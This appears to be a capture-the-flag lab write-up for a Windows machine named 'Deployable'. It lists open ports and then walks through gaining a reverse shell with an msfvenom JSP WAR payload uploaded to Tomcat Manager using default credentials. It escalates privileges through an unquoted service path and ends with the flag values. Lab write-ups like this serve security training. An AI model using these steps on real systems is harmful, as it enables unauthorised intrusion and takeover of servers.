


# Deployable

**IP Address:** 172.31.1.13

## Enumeration
### Open Ports
| Port | State | Service | Version |
|------|-------|---------|---------|
| 135/tcp | open | msrpc | Microsoft Windows RPC  |
| 139/tcp | open | netbios-ssn | Microsoft Windows netbios-ssn  |
| 3389/tcp | open | ms-wbt-server |   |
| 445/tcp | open | microsoft-ds | Microsoft Windows Server 2008 R2 - 2012 microsoft-ds  |
| 47001/tcp | open | http | Microsoft HTTPAPI httpd 2.0 |
| 49152/tcp | open | msrpc | Microsoft Windows RPC  |
| 49153/tcp | open | msrpc | Microsoft Windows RPC  |
| 49154/tcp | open | msrpc | Microsoft Windows RPC  |
| 49155/tcp | open | msrpc | Microsoft Windows RPC  |
| 49156/tcp | open | msrpc | Microsoft Windows RPC  |
| 49163/tcp | open | msrpc | Microsoft Windows RPC  |
| 49164/tcp | open | msrpc | Microsoft Windows RPC  |
| 5985/tcp | open | http | Microsoft HTTPAPI httpd 2.0 |
| 8009/tcp | open | ajp13 | Apache Jserv  |
| 8080/tcp | open | http | Apache Tomcat/Coyote JSP engine 1.1 |
| 137/udp | open | netbios-ns | Microsoft Windows netbios-ns  |
| 138/udp | open|filtered | netbios-dgm |   |
| 4500/udp | open|filtered | nat-t-ike |   |
| 500/udp | open|filtered | isakmp |   |


## Exploitation
### Exploit Details ()
* **Name** - 
* **CVE** - N/A
* **Module** - N/A
* **Disclosed** - N/A
* **References**
  * N/A

1. Create a war file payload using msfvenom 

Commands
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=$lhost LPORT=$lport -f war > shell.war
```


2. Login to the http://172.31.1.13:8080/manager/html application using the default credentials (tomcat / s3cret) and upload the payload. Then click on Deploy. 


3. In the Applications menu click on the new '/shell' application. 



4. Catch the reverse shell and read the access.txt file. 

```
whoami
type C:\Users\tomcat\Desktop\access.txt
```


## Privilege Escalation
### Exploit Details (Unquoted Service path)
* **Name** - Unquoted service path
* **CVE** - N/A
* **Module** - N/A
* **Disclosed** - N/A
* **References**
  * N/A

The Deploy service contains an unquoted service path and the user account has write permissions into the C:\Program Files\Deploy Ready\ folder. 

Commands
```bash
copy shell.exe "C:\Program Files\Deploy Ready\Service.exe"
net stop Deploy
net start Deploy
whoami
type C:\Users\Administrator\Desktop\system.txt 
```




## Loot
```
access.txt
5b7dbd2f4ce39bb536fe1da6c897a4fb
system.txt
11400db5d23b9738534002f27b86c030
```